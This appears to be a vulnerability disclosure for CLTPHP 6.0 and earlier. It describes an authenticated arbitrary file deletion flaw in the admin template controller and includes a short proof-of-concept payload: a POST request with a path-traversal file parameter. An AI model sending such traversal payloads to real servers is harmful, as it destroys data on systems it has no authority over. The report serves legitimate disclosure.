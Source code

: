 # CLTPHP <= 6.0 Improper Input Validation 2
## Description
    The system client did not handle the parameters correctly, resulting in arbitrary file deletion.
## Vendor Homepage
    https://gitee.com/chichu/cltopen/
    https://www.cltphp.com/

## Author
    HuBen-Lab
## Proof of Concept
File:`application/admin/controller/Template.php `

Exploiting this vulnerability requires logging into the system.

payload:

```
http://172.16.5.135:81/index.php/admin/template/delete

post：file=../../../../../../../1.txt
```

This vulnerability can only be used under windows.

![image-20230105192152942](img/63b7c3d813bcb.png)